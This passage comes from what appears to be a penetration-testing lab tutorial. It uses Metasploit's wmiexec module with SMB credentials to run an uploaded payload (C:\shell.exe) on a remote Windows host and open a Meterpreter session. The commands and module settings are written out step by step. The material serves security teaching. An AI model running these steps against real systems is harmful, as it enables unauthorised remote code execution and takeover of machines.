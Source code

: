     - **Note:** The `-j` argument in `exploit -j` means to run in the background. This ensures that your listener is constantly listening and you can use Metasploit with it listening in the background.

7. Now, switch to the WMI module.

    - `use scanner/smb/impacket/wmiexec`

8. Fill in the SMBPass, SMBUser, SMBDomain, and RHOSTS parameters, if not done already.
 
9. For COMMAND, put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, the payload will be located in `C:\`.

    - `set COMMAND C:\shell.exe`

    ![A screenshot depicts the parameters all correctly set.](Images/parameters.PNG)

10. Run the module with the command `run`. The message "Meterpreter session 1 opened" should appear, as the image shows:

    ![A screenshot depicts the results of the command.](Images/sessions.PNG)

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.

11. To view active sessions, type `sessions` and select the session based on the ID via the following command:

     - `sessions -i [session ID]`

    ![A screenshot depicts the results of the command.](Images/sessionid.PNG)
    
    - You now have a **Meterpreter shell**, which we'll cover in the next lesson.
